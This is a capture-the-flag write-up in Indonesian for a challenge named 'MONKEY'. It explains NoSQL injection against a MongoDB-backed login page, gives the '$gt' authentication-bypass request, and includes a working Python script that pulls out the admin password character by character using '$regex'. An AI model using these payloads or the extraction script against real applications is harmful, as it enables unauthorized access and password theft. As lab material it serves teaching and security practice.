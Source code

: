 # **MONKEY**

NoSQL injection adalah serangan yang ditujukan untuk melanggar keamanan aplikasi yang menggunakan database NoSQL. Serangan ini mirip dengan serangan SQL injection, tetapi ditargetkan pada database NoSQL yang menggunakan model datanya yang berbeda dengan database relasional.

Dalam serangan NoSQL injection, penyerang mencoba memanipulasi atau menyisipkan data yang tidak valid atau berbahaya ke dalam permintaan atau operasi database NoSQL. Tujuan utama serangan ini adalah untuk mendapatkan akses yang tidak sah ke data sensitif atau merusak integritas data dalam database NoSQL.
## **About the challenge**
Pada Challenge ini, Probleset meminta pemain untuk login sebagai admin dan memberikan halaman login serta akun guest:guest untuk masuk.

![monkey](./image/monkey1.PNG)
## **Solution**
Saya mencoba login dan hanya muncul pesan "Welcome, guest". Ditambah dengan gambar monyet yang sedikit ngeselin. Tujuan saya adalah untuk login sebagai admin. Setelah saya login sebagai admin, tidak ada flag yang tertera. Tempat injeksi yang mungkin adalah halaman login.

Tentu saja hal pertama yang saya lakukan adalah injeksi SQL, tetapi setelah mencoba-coba dengan halaman login untuk beberapa waktu, saya mengerti bahwa itu tidak ada hubungannya dengan SQL. Cara selanjutnya adalah mencoba NoSQL dan kemudian saya mendapatkan hasil yang sangat menarik. Dari injeksi awal, tampaknya basis data backend menggunakan MongoDB dan saya memutuskan untuk membaca sedikit lebih banyak tentangnya.

Secara sederhana, MongoDB bekerja seperti ini:

Request: ```login.php?user=admin&password=1```

```php
$collection->find(array(
    "username" => "admin",
    "password" => "1"
));
```
---------------------------
Username dan password dikumpulkan dari data yang masuk dan database langsung dicari menggunakan data tersebut. 
Lalu bagaimana jika kita dapat melewatkan objek atau array?

Request: ```login.php?user[$gt]=&password[$gt]=```
```php
$collection->find(array(
    "username" => array("$gt" => 1),
    "password" => array("$gt" => 1)
));
```
Ini akan menghindari skema Autentikasi dan akan memasukkan kita langsung ke akun pertama di database, yaitu admin! Jadi sekarang kita sudah masuk sebagai admin! Tetapi flag-nya adalah password admin jadi saya perlu mengekstraknya. Saya mencari di Google cara mengekstrak data tetapi tidak memberi saya banyak pilihan. Kemudian saya mengetahui tentang $regex yang digunakan untuk membandingkan karakter password satu per satu. Jadi berikut adalah logikanya:

saya menginisiasi permintaan dengan ```user=admin&password[$regex]=F.*```. Anda dapat melihat bahwa ini memberikan pengalihan ```302``` karena password dimulai dengan F (karena password adalah flag dan sesuai dengan aturan, flag dimulai dengan ```ForestyHC```). Untuk semua karakter lainnya, itu memberikan kode status ```200```. saya dapat dengan mudah mengotomatiskan ini untuk menemukan sisa password.

saya menggunakan script dibawah ini
```python
import requests
import string

# We are sure that password is the flag which starts with "TWCTF{"
# and ends with "}"

flag = "ForestyHC{"
url = "http://103.167.136.89:10002/"

# Each time a 302 redirect is seen, we should restart the loop

restart = True

while restart:
    restart = False

    # Characters like *, ., &, and + has to be avoided because we use regex

    for i in string.ascii_letters + string.digits + "!@#$%^()@_{}":
        payload = flag + i
        post_data = {'username': 'admin', 'password[$regex]': payload + ".*"}
        r = requests.post(url, data=post_data, allow_redirects=False)

        # A correct password means we get a 302 redirect

        if r.status_code == 302:
            print(payload)
            restart = True
            flag = payload

            # Exit if "}" gives a valid redirect

            if i == "}":
                print("\nFlag: " + flag)

                exit(0)
            break
```
Skrip berfungsi sebagai berikut:

1) Karena kata sandi adalah flag, kita yakin bahwa kata sandi dimulai dengan ```ForestyHC{```sehingga hal ini dapat digunakan untuk memverifikasi apakah yang saya lakukan adalah benar.

2) Saya berasumsi bahwa karakter seperti ```+, * dan &``` tidak akan ada karena dapat mengganggu Regex (dan hokinya saya tidak ada!)

3) Skrip berhenti ketika saya mendapatkan pengalihan ```302``` ketika karakternya adalah } karena saya yakin bahwa karakter akhir akan menjadi } (lagi, karena kata sandi sama dengan flagnya).

And we got flag
```
ForestyHC{reject_humanity_return_to_monke_5543d8}
```
